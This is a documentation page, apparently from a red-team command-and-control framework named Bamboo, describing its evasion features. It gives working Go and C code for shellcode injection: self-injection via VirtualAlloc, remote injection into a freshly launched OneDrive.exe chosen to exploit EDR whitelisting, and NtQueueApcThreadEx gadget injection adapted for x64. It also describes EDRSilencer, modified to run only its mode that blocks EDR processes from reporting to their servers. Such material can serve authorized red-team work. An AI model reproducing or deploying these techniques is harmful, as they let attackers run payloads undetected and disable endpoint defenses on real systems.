

# Evasion

## Shellcode Injection

Elastic Defend is unable to detect malicious in-memory files. Thus, these shellcode injection techniques are effective in executing payloads undetected. The shellcode injection techniques are implemented within Bamboo Agent and can be selected when the user uses the [`exploit`](Client/commands.md#exploit) command. The shellcode for the injection is generated using [Donut](https://github.com/TheWover/donut).

### Virtual Allocation Injection

Virtual Allocation injection is a technique used to inject shellcode into memory. As this method of injection uses VirtualAlloc, it allocates and injects shellcode into the memory of its own process.

The exploits used by Bamboo tend to crash the injected process, so using Virtual Allocation will likely cause the Agent that ran it to crash.

The technique involves the following steps:

1. Use VirtualAlloc to reserve space to inject the shellcode inside the process.
2. Copy the shellcode into the reserved space using RtlCopyMemory.
3. Call VirtualProtect to change the protection on the injected space to allow execution.
4. Create a new thread in the process using CreateThread to run the shellcode in the injected space.
5. WaitForSingleObject is used to wait for the thread to finish.

**Implementation**

[zaneGittins' go-inject](https://github.com/zaneGittins/go-inject) simplifies using Windows functions related to injections, and is used by the agent to implement this technique.

<details>
<summary>Expand code</summary>

```go
func VirturalAlloc(payload string) (err error) {
  sc, err := hex.DecodeString(payload)
  if err != nil {
    fmt.Printf("\nError decoding shellcode: %s\n", err)
    return
  }

  address := inject.VirtualAlloc(uintptr(0), len(sc), windows.MEM_RESERVE|windows.MEM_COMMIT, windows.PAGE_READWRITE)
  inject.RtlMoveMemory2(address, sc)
  inject.VirtualProtect(address, len(sc), windows.PAGE_EXECUTE_READ)
  thread := inject.CreateThread(address)
  inject.WaitForSingleObject(thread, 0xFFFFFFFF)
  return
}
```

</details>

The code for this injection technique is found in Bamboo Agent.

---

### Remote Process Injection

Remote Process Injection, also called Vanilla Process Injection, is a shellcode injection technique that injects the shellcode into the memory of another process. Unlike the Virtual Allocation Injection technique above, this technique used VirtualAllocEx rather than VirtualAlloc, which allocates memory in another process instead of the local process.

The advantages of using process injection over injecting into itself are:

- Causing the injected process to crash instead of the agent used to inject.
- Make use of any whitelisting detection tools have for the injected process

The steps this technique uses is:

1. Get the PID of the process to inject.
2. Call OpenProcess to get a handle for the process to inject into.
3. Use VirtualAllocEx to allocate space for the shellcode in the remote process.
4. Write the shellcode into the allocated space using WriteProcessMemory.
5. Create a thread in the remote process with CreateRemoteThread to run the allocated space.
6. Close the handle to the process with CloseHandle.

**Implementation**

Instead of finding the PID of a suitable process, the Agent will launch OneDrive.exe from the user's home directory. OneDrive is a very suitable process to inject into with the exploits Bamboo has, and launching the process before injecting into it will ensure that the process will be available to inject into. It is also whitelisted from Elastic Security's Component Model Hijacking as it is considered a noisy process.

<details>
<summary>Expand code</summary>

```go
...
sc, err := hex.DecodeString(payload)
if err != nil {
  return
}
 find and launch OneDrive.exe and use its PID
currentUser, _ := user.Current()
oneDriveExe := currentUser.HomeDir + "\\AppData\\Local\\Microsoft\\OneDrive\\OneDrive.exe"
cmd := exec.Command(oneDriveExe)
cmd.Stdout = os.Stdout
// Start() runs the command without waiting for return - rest of the code can continue
  err = cmd.Start()
  if err != nil {
  fmt.Println(err)
    return errors.New("cannot launch process")
}
exploitPID := cmd.Process.Pid
fmt.Println("exploit pid:", exploitPID)
...
```

</details>

The rest of the injection technique is implemented with [zaneGittins' go-inject](https://github.com/zaneGittins/go-inject) library.

<details>
<summary>Expand code</summary>

```go
...
processHandle, _ := inject.OpenProcess(windows.PROCESS_CREATE_THREAD|windows.PROCESS_VM_OPERATION|windows.PROCESS_VM_WRITE|windows.PROCESS_VM_READ|windows.PROCESS_QUERY_INFORMATION, 0, uint32(int(exploitPID)))
memptr := inject.VirtualAllocEx(processHandle, uintptr(0), len(sc), 0x3000, 0x40)

_ = inject.WriteProcessMemory(processHandle, memptr, sc)
inject.CreateRemoteThread(processHandle, 0, 0, memptr, 0, 0, 0)
inject.CloseHandle(processHandle)
fmt.Println(windows.GetLastError())
return
```

</details>

The code for this injection technique is found in Bamboo Agent.

### NtQueueApcThreadEx NTDLL Gadget Injection

**Description**

This is a novel shellcode injection method first used by Roshtyak, the DLL backdoor used by the malware Raspberry Robin. This was adapted into a C program and published on github by [LLoydLabs](https://github.com/LloydLabs/ntqueueapcthreadex-ntdll-gadget-injection), which is the original code Bamboo uses for its NtQueueApcThreadEx NTDLL Gadget Injection. The image below shows the parameters of `NtQueueApcThreadEx()`, a function in the Windows Native API. The original code only works with x86 shellcode. However, in the explanation below, the gadget `pop rax; ret` is used instead of `pop r32; ret` to make the technique work with x64 shellcode instead.



The technique uses the following steps:

1. Allocate shellcode into the memory of the current process
2. Scan the ntdll.dll code sections of the current process for a `pop rax; ret` gadget and pick 1 of these gadgets randomly.
   - “rax” refers to a general-purpose register such as eax, ebc, ecx etc. Thus, an example gadget that would meet this requirement is `pop ebp; ret`.
   - An exception is the gadget `pop esp; ret` because this would pivot the stack.
   - “Code sections” refers to IMAGE_SCN_CNT_CODE and IMAGE_SCN_MEM_EXECUTE
3. Call `NtQueueApcThreadEx()` with the `ApcRoutine` set to the address of the random gadget found in step 2 (`pop rax; ret`) and `SystemArgument1` as the pointer to the shellcode allocated in step 1.
   - With `ApcRoutine` set to the random gadget, the `pop r32` instruction will make the stack pointer point to `SystemArgument1`.
   - The `ret` instruction will make the Instruction Pointer (IP) jump to the location that `SystemArgument1` points to, which is the location of the allocated shellcode in step 1

This technique requires Microsoft Visual C++ redistributables x86 to be installed on the target which can be found at [https://aka.ms/vs/16/release/vc_redist.x86.exe](https://aka.ms/vs/16/release/vc_redist.x86.exe).

**Implementation**

The code is modified to work with x64 shellcode by changing a single line in gadget.h as shown in the code snippet below.

<details>
<summary>Expand code</summary>

```c
static
BOOL
gadget_match_valid(
    PBYTE pbAddress
)
{
    //return (*pbAddress != 0x5C && (*pbAddress & 0xF0) == 0x50) && *(pbAddress + 1) == 0xC3; // for x86
    return *pbAddress == 0x58 && *(pbAddress + 1) == 0xC3; // for x64

}
```

</details>

Additionally, in the original code, the shellcode was hardcoded in main.h. In Bamboo, the code is modified to receive shellcode via standard input. After the injection program is dropped onto the target and executed, the shellcode will be passed via standard input from the agent as a hexstring in the format “ab1823129ef…”, which is the standard format of shellcode that our agent uses for its injection techniques. This hexstring is stored into a buffer of the injection program and converted by a `convert_hex()` function into a hexstring of format “\xab\x18\x23\x12\xef…”. The rest of the code follows the logic of the original PoC from LloydLabs.

When this injection technique is selected, Bamboo Agent drops its embedded Gadget Injection file onto the target, executes it, then passes the payload as a hexstring via standard input which is then injected.

---

## EDR Blinding

The tool below is not an injection technique, but instead used to disrupt the effectiveness of the EDR itself.

### EDR Silencer

**Description**

EDRSilencer, created by [netero1010](https://github.com/netero1010) is an [open-source](https://github.com/netero1010/EDRSilencer) evasion tool designed for disrupting Endpoint Detection and Response (EDR) systems. It leverages Windows Filtering Platform (WFP) APIs, which allows a program developer to create network filtering software that can examine, modify and stop network traffic. EDRSilencer uses the WFP to prevent EDR agents and processes from connecting and reporting security events with their servers, effectively disabling the EDR's threat detection capabilities of the EDR. The tool currently supports Elastic EDR, among other popular EDR solutions.

**Implementation**

In the [original code's](https://github.com/netero1010/EDRSilencer/blob/main/EDRSilencer.c) main function, it checks if the user inputs the correct number of command-line arguments and performs different actions based on the argument's value:

| Arguments            | Description                                                     |
| -------------------- | --------------------------------------------------------------- |
| -h or --help         | Prints the help information                                     |
| blockedr             | Blocks all detected EDR processes from sending outbound traffic |
| block <process path> | Blocks a specific process from sending outbound traffic         |
| unblockall           | Removes all WFP filters applied                                 |
| unblock <filter id>  | Removes a specific WFP filter based on its filter ID            |

The team modified the main function of the original code. The modified code no longer requires command-line arguments. It has been altered to only execute the `blockedr` argument. The modified code is as follows:

<details>
<summary>Expand code</summary>

```c
int main() {
    if (!CheckProcessIntegrityLevel()) {
        return 1;
    }
    PrintHelp();
    BlockEdrProcessTraffic();
    return 0;
}
```

</details>
This modification allows the executable to be easily incorporated within our C2 and agent, making it more convenient and efficient for our purposes. With this modification, the file is stored as EDRBlocker.exe in the Teamserver.
